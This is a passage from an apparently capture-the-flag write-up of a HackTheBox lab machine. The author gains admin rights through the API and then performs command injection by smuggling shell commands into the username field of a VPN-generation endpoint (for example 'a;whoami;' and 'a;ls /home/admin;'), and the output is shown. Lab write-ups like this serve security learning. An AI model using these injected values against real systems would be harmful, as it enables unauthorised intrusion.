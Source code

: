 `GET /api/v1/admin/auth`:
```json
{
	"message":true
}
```
Our user is now an admin!\
We can now try again to generate an admin vpn.

`POST /api/v1/admin/vpn/generate`:
```json
{
	"status":"danger",
	"message":"Missing parameter: username"
}
```
We get no errors this time, once again we will try to figure out the needed information.\
We will add `{"username":"a"}`:
```
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
...
</tls-auth>
```
Success! We have a VPN configuration file.

## Injection to API

Since we get data from this endpoint, we can try to inject the input (username) with malicious code.\
We will change the info on the `POST /api/v1/admin/vpn/generate` to `{"username":"a;whoami;"}`:
```
www-data
```

Using `{"username":"a;ls;"}` and `{"username":"a;ls /;"}` seem to be working as well.

`{"username":"a;ls /home/admin;"}`:
```
CVE-2023-0386
user.txt
```
But we cannot read the `user.txt` file.

We will see what else we can find.

`{"username":"a;ls -a;"}`:
```
.
..
.env
Database.php
Router.php
VPN
assets
controllers
css
fonts
images
index.php
js
views
```
